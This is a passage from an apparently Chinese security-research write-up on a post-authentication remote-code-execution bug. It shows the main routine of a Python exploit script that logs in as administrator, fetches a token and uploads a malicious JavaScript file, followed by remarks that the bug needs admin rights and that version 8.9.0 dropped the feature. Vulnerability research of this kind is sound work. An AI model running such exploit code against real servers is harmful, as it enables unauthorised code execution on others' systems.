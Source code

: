 ```python
    if not args.proxy:
        proxy = {}
    else:
        proxy = {
            "http": args.proxy,
            "https": args.proxy
        }
    session = requests.session()
    jsfn = os.path.basename(args.file)
    jsfc = open(args.file, "r", encoding="utf-8").read()
    LoginAsAdministrator(session, args.url.strip("/"), proxy, args.admin_username, args.admin_password)
    alt_token = GeyAltToken(args.url.strip("/"), proxy, session)
    DoAuthenticate(session, args.url.strip("/"), proxy, args.admin_username, alt_token)
    UploadEvilJsFile(session, args.url.strip("/"), proxy, jsfn, jsfc, alt_token)
```

效果：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-36885eb796a13d538ec27b3cfb9610c2be779f9b.png)

四、后记
====

这个漏洞官方说需要验证，但是这个功能点是管理员组用户才具有的，因此普通用户账户应当是无法利用的，并且我也没找到其他地方存在配置代码宏这个功能对应的函数，不排除我落了某些地方；可能会有人有疑问，我都有管理员组账户的账号密码了，我还这么费劲地`RCE`干嘛，不能直接传插件`RCE`吗？但是至少我测试的`8.9.0`版本已经去除了这个功能，其他版本我具体也没去查：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-3a8071cf0b5cace973dc791ca7c223b22f191221.png)